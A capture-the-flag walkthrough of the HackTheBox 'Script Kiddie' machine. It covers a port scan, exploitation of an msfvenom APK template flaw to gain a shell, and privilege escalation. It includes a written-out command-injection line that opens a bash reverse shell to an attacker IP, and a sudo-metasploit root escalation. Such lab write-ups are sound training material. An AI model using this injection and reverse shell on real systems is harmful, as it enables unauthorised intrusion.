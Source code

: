 # HackTheBox-Script Kiddie

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-02 19:59 PKT
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.63% done; ETC: 19:59 (0:00:00 remaining)
Nmap scan report for 10.10.10.226
Host is up (0.21s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
4444/tcp open  krb524?
| fingerprint-strings:
|   GetRequest, NULL:
|     eNrsvWmXIjmSKPo9fwVddXsCiqhgc3AnTmXNEOz7vmbncHwDHHwB31i66/32J/kq34DIqntn7pmbfboCl0wmk8lkMkkm089/S2mKnKI4MXW8qjtJ/MIJR0lWYyCFVGiOs79piWHt35Ji/z
rypLqRZMH+lkmRkdwvp4TC8iytOl8SfWDdL1XWkDyNOsoSzSpOHcrV+anuZJZkOHHrJ
5000/tcp open  http    Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-server-header: Werkzeug/0.16.1 Python/3.8.5
|_http-title: k1d'5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.45 seconds

```

## PORT 5000 (HTTP)

<img src="https://imgur.com/NLLAJJ1.png"/>

Here we can do an nmap scan on the machine but if we try to run bash commands it won't work

<img src="https://imgur.com/QXOmFOU.png"/>

<img src="https://imgur.com/n5mThGc.png"/>

Similarly with the msfvenom and searchsploit

<img src="https://imgur.com/BzJTgtb.png"/>

Msfvenom successfully generetes payload

<img src="https://imgur.com/WsEp93j.png"/>

But only windows and android payload generates

<img src="https://imgur.com/gdGJrIu.png"/>


Also there weren't any hidden directories or files on the webserver this page was only there on the machine. So on googling a little bit I found that `msfvenom` recently had a vulnerability in the process generating payload

<img src="https://imgur.com/JtdAtf1.png"/>

<img src="https://imgur.com/7PyVLu3.png"/>

This was a latest exploit so metasploit needs to be update if you run to any issues when updating metasploit regarding the gem file do this inorder

`gem update`
`cd /usr/share/metasploit-framework`
`sudo nano Gemfile.lock` (update reline version in that file this important before bundle install)  
`sudo bundle install` ( in metasploit folder)

<img src="https://imgur.com/8Q46lfu.png"/>

<img src="https://imgur.com/0LR7Eg9.png"/>

<img src="https://imgur.com/B2pigeV.png"/>

Upload the apk file on the website

<img src="https://imgur.com/HCj6XEo.png"/>

<img src="https://imgur.com/DD2Z1sO.png"/>

And you'll get a shell so we will need to stabilize it 

<img src="https://imgur.com/1MOGsiD.png"/>

Going to `pwn`'s home directory we see a bash script `scanlosers.sh` which was reading  a script file from `kid`'s home directory and execute it 

<img src="https://imgur.com/4vBH6TR.png"/>

Seeing that file belongs to `pwn`'s group

<img src="https://imgur.com/sOM8Kfa.png"/>

We can edit this with a bash reverse shell , this is the way the payload needs to be crafted.

`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.126/1337 0>&1'  #" >> hackers`

<img src="https://imgur.com/DcTRUUb.png"/>

Doing `sudo -l` 

<img src="https://imgur.com/lwZ1jUB.png"/>

Running metasploit as `sudo`

<img src="https://imgur.com/CVSx2Ia.png"/>

We can now run commands as `root`

<img src="https://imgur.com/ZE6bFiQ.png"/>

<img src="https://imgur.com/r0Xsgrw.png"/>

